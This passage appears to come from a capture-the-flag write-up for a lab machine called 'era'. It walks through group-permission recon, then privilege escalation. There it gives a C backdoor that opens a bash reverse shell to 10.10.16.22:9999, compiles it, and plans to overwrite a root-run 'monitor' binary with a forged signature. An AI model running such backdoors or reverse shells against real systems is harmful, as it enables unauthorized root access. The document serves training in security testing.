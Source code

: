 
But for [pwncat](https://github.com/calebstewart/pwncat), it is quite old so maybe during the installation, it will conflict with dependencies so I prefer [penelope](https://github.com/brightio/penelope) instead.

## Initial Access
After we got into `eric` user, we doing some recon and found out these interesting things.

### Discovering and Group Permission
```bash
eric@era:~$ id
id
uid=1000(eric) gid=1000(eric) groups=1000(eric),1001(devs)
```

```bash
eric@era:/opt/AV/periodic-checks$ ls -la
ls -la
total 32
drwxrwxr-- 2 root devs  4096 Jul 28 15:31 .
drwxrwxr-- 3 root devs  4096 Jul 22 08:42 ..
-rwxrw---- 1 root devs 16544 Jul 28 15:31 monitor
-rw-rw---- 1 root devs   205 Jul 28 15:31 status.log
```

So we know that `eric` is a member of `devs` group and there a `monitor` file that is for `root` but there is `rw` permission for `devs` group. <br>
&rarr; We can leverage this **write** permission to perform our exploit later.

If we recall back there is a file that mentions in `singing.zip` file that we know there is `ELF Verification` system. <br>
&rarr; From this, we will trying to create a **backdoor** that contain our reverse shell code.

## Privilege Escalation
### Backdoor
First let's create a `backdoor.c` file based on `C` code.

```c
#include <stdlib.h>
int main() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.22/9999 0>&1'");
    return 0;
}
```

Then compile static binary.

```bash
eric@era:/tmp$ gcc -static -o monitor_backdoor backdoor.c
gcc -static -o monitor_backdoor backdoor.c
```

Next up, we gonna use [objcopy](https://man7.org/linux/man-pages/man1/objcopy.1.html) to create a signature for our backdoor.
